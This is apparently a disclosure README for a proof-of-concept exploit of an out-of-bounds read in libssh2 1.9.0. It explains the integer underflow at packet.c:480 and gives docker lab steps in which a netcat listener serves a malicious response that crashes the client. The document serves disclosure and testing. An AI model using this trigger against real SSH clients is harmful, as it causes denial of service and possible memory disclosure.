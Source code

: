 # Out-of-bounds read in libssh2

[libssh2](https://www.libssh2.org/) version 1.9.0 contains a remotely triggerable out-of-bounds read, leading to denial of service or potentially to information disclosure. I reported this bug to libssh2-security@haxx.se on 2019-07-01. At the time of writing (2019-10-11), it has been [fixed on the master branch](https://github.com/libssh2/libssh2/pull/402/commits/1c6fa92b77e34d089493fe6d3e2c6c8775858b94), but a new official version containing a fix has not yet been released.

This directory contains a proof of concept exploit for the vulnerability. It uses [docker](https://www.docker.com/) to simulate two computers. The first is a server, with a simple [netcat](https://linux.die.net/man/1/nc) command listening on port 22. The second is a client, running `libssh2`. When the client attempts to connect to server, the server sends back a malicious response which triggers a segmentation fault in the client.

The source location of the vulnerability is [packet.c:480](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L480):

```c
if(message_len < datalen-13) {
```

The value of `datalen` is untrusted because it came from the remote computer. If `datalen == 11`, for example, then the subtraction will overflow and the bounds-check of `message_len` is ineffective, leading to an out-of-bounds read on [line 485](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L485).

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```bash
docker network create -d bridge --subnet 172.18.0.0/16 libssh2-demo-network
```

## Server setup

Build the docker image:

```bash
docker build server -t libssh2-server --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.10 -i -t libssh2-server
```

Start the malicious "ssh server":

```bash
sudo nc -l -p 22 < poc.bin  # password is x
```

## Client setup

Build the docker image:

```bash
docker build client -t libssh2-client --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 -i -t libssh2-client
```

If you want to be able to debug libssh2 with gdb, then you need to start the container with a few extra arguments:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -i -t libssh2-client
```

In the container, attempt to connect to the server:

```bash
cd ~/libssh2/example
./ssh2 172.18.0.10
```

This command crashes with a segmentation fault.

If you would like to debug libssh2 with [gdb](https://www.gnu.org/software/gdb/), then start it like this:

```bash
cd ~/libssh2/example/.libs
LD_LIBRARY_PATH="/home/victim/libssh2/src/.libs:$LD_LIBRARY_PATH" gdb --args ./ssh2 172.18.0.10
```
